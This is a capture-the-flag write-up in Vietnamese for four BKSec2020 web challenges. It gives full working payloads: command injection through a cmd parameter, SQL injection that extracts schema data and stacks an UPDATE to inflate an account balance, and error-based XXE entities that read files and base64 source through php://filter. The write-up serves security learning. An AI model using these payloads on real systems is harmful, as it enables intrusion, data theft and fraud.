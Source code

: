 # BKSec2020-CTF

#         Hacked (Author: Q5Ca)
- Bài này thì khá đơn giản chỉ chúng ta chỉ cần tập trung vào file robots.txt sau đó ta sẽ tháy file sitemap.xml => nhận dc `http://52.163.126.205:24033/shell1337/` ok v là ta có thể chạy shell trên local , chỉ việc get the flag!. `BKSec{robots.txt_is_S0_interesting}`.
#         Admin watch tower (Author: Sudo)
- Mới vào trang web ta  thấy `total 12 drwxrwxr-x 2 1000 1000 4096 Mar 30 17:25 . drwxr-xr-x 1 root root 4096 Feb 26 11:59 .. -rw-rw-r-- 1 1000 1000 777 Mar 30 17:25 index.php`
  + Tôi đoán có thể control bằng get request và đầu ra của source code là `system($_GET)`, thử đầu tiên với parameter là `?cmd=ls` responts : `Hack con keci ` kèm theo video LỚN RỒI! tiếp tục thử các chữ cái đều bị chặn , xong thử tới các kí tự đặc biệt thì chỉ có 1 dấu `/` là sài được , nhưng kí tự tiếp theo sau dấu `/`chỉ cho phép các kí tự đặc biệt . 
  + V cũng không sao , thử dùng kí tự nối 2 câu lệnh trên linux là `;` với payload :`?cmd=/;ls ` xem có j hot. BOOM. respont trả về `index.php` 
  + V là có thể get the flag rồi ! payload hoàn chỉnh :`?cmd=/;cd ../../../../ ; cd etc ;cat h3r3_is_ur_FlAg.txt` flag:`BKSec{Ngh3___nh4c____DSK_____d1____kh0n9___t4o___d4m___ch3t___d4y}`.
 #        Shitcoin(Author: Q5Ca)
 -  Bài này khá thú vi đối với tôi , tuy làm ko giống ý đồ của tác giả, nhưng sau khi lấy được flag thì được tác giả có chỉ hướng đi , tôi cũng hiểu được phần nào tầm quan trọng của bài này . OK bây giờ tôi sẽ giải bài này theo cách của tôi!
 -  Bài này chỉ là gửi tiền cho người khác kèm theo là 1 message . tôi suy luận 2 trường hợp
    + 1 là tìm user có tiền trong database.
    + 2 là tự insert tiền cho mình (có khả quan hơn, và tôi chọn làm trước) .
 -  Sau khoảng thời gian lay hoay tìm chổ inject thì tôi cũng tìm được 1 chổ là message.
    + Message là chổ sẻ inject dữ liệu vào database , và sẽ select ra ở phia người nhận . Do đó ta có thể dùng inject select query để lấy các dữ liệu như tên bảng tên cột và value của các cột.  
    + Nhưng do tính cẩu thả , tôi fuzz hoa loa ,tuy có thử '||' nhưng lúc đầu không được nên tôi bỏ qua, và tôi đã dùng payload quá  chuối là `0"+ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))+"` thì nó sẽ chuyển các chữ cái thành số  hệ Dec và gửi cho ngừi nhận ,ta chỉ việc decode ra được các chữ và cứ thế theo cách này là ra được các tên bảng và các cột ``` ledger -> id,amount,sender_id,receiver_id,message   và   users -> id,username,password ``` . Nếu muốn lấy values của các cột thì dùng `0"+ascii(substr((select id from users limit 1 OFFSET 0),1,1))+"`.
    + Tiếp đó tôi thử dùng multi insert nhưng KHÔNG KHẢ QUAN payload `0"),("1000","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","OuSHJMNMVEXrvpYeU9OXY/Qk5V6eyxW7Le3QhZnUNySf6A6PoV36ySur86hZ1Fkx","HAH`  , với chuỗi dài nhất đó là id của ngừoi gửi và ngừơi nhận.
    + Quyết định chơi lun stacked query . update tiền cho mình ban đầu tôi dùng với payload `a"); UPDATE ledger SET amount=1000000-- -` mình sẽ bị -1000000 và người nhận sẽ dc 1000000 .Cứ chuyển qua chuyển lại thì sẽ đc tiền r mua flag thôi `BKSec{now_u_know_RELATIONAL_database}` 
 -  Ngoài ra các bạn có thể sử dụng payload :`"||(SELECT VERSION())||" ` để tìm version cũng như thây đổi 1 chút trong payload để tim các bảng và các cột và values cột nhanh nhất .  
 #          XML Suck(Author: Q5Ca)
 -  Bài này là mình solve cuối cùng , vì mình chưa rành về `XXE` nên việc làm nó cũng hơi khó khăn với mình . 
  - Tác giả cho source thì mình biết flag ở source và cái $user ko dc show ra ngoài nên ko thể dùng được` xxe to retrieve files`.
  - Còn lại 2 kĩ thuật blind và error based .
    + Dùng Blind thì bị chặn stream http. 
    + Còn lại error base . ok tiến hành thử file DTD local để exploit , nhưng không có file dtd nào ở local cả. 
    + Lên gg đọc tài liệu và tìm payload thì phát hiện 1 payload ko cần dtd ở local . 
 payload : 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "file:///flag">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<message>a</message>
 ```
 - Ngon rồi ! thử rap vào xem chạy được không nhé!
 payload:
 ```
     <?xml version="1.0" encoding="UTF-8"?> 
    <!DOCTYPE message[ 
      <!ELEMENT message ANY >
      <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "index.php">
      <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
    '>
    %NUMBER;
    ]> 
    <creds>
    <user></user>
    <pass></pass>
    </creds>
 ```
 respont :
 ```
 <br />
<b>Warning</b>:  DOMDocument::loadXML(): Invalid URI: file:///nonexistent/&lt;?php 
    error_reporting(E_ALL);
    ini_set( in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  DOMDocument::loadXML(): xmlParseEntityDecl: entity error not terminated in Entity, line: 3 in <b>/var/www/html/index.php</b> on line <b>9</b><br />
<br />
<b>Warning</b>:  simplexml_import_dom(): Invalid Nodetype to import in <b>/var/www/html/index.php</b> on line <b>10</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>11</b><br />
<br />
<b>Notice</b>:  Trying to get property of non-object in <b>/var/www/html/index.php</b> on line <b>12</b><br />
You have logged in as user !!!
 ```
 - Vậy là thành công r , h chỉ việc dùng wrapper php://filter là móc tất tần tật source code ra !
 payload `php://filter/zlib.deflate/convert.base64-encode/resource=index.php`
 và 
 ```
 <?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE message[ 
  <!ELEMENT message ANY >
  <!ENTITY % NUMBER '<!ENTITY &#x25; file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=index.php">
  <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%NUMBER;
]> 
<creds>
<user></user>
<pass></pass>
</creds>
 ```
 respont : ```XZBBTwIxEIXv/ophY7I1gYAHLyIYyHIwLnCQg56asjuUxm7btLsKUf+703U3IfbSTt+br9P38OiODq6AFnpvPfforK+VkWzFF3l+M201ZRQPWLO0VMFpceatOaRDuP3v0FZ2Kq/EiWs05LqbTMjXGrXanyrNCST2GjmaWtVnrq0o0QM7CB2wQ16T76A0wgzixiXWvLCmppbAUpr7fjxWxjV12jeUtiKzwU/ItuvMFk1FXnahjubxodd1znr4EPKnJV3wzXa12cF3X2a7LN8usr638FgGYgdVOY3xA3SgoDhBWST3xibQN2Zdw2gey05xIoQLJZZ/ChZHC8mbbeAoPhAoQIklBQoiQIsbDAZJBzloIQmSLp9fsPiKg6rAk9WJQgmK8lwL/964XBjZCInJTzq9+gU= ```. 
 Chỉ việc decode là ra flag :BKSec{XML_is_"ExtensibleMarkupLanguage"}
 tool: https://www.samltool.com/decode.php
